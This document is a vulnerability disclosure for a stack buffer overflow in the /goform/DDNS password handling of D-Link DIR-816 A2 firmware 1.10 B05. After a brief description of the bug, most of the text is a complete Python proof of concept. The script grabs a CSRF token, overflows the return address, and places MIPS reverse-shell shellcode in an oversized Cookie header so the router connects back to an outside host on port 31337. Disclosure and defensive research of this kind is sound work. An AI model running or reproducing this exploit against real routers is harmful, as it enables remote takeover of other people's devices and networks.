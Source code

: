 # D-Link DIR-816 A2 Stack Overflow

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/DDNS`, the value of parameter `password` is base64 decoded and the result is saved on the stack:

![](ida.png)

However, there's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![](gdb.png)

Just as the [previous one](https://github.com/PAGalaxyLab/VulInfo/blob/master/D-Link/DIR-816/stack_overflow_0/), the heap is at fixed address with permission `rwx`. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

## POC

```python
#!/usr/bin/env python

# POC code reference: https://0x3f97.github.io/exploit/2018/05/13/D-Link-DIR-816-A2-CN-router-stack-based-buffer-overflow/

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]

print 'tokenid is %s' % tokenid

# The shellcode would be at 0x48fc18
newRet = '\x18\xfc\x48\x00'

# Reverse shell to 192.168.0.100:31337
# Credit: http://shell-storm.org/shellcode/files/shellcode-860.php
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

# A long password for overflow
pl1 = newRet*45

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pl2 = ('tokenid=%s&enable=1&hostname=ddns&username=abcd&password=' % tokenid) + b64e(pl1)

payload = "POST /goform/DDNS " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pl2)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pl2

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
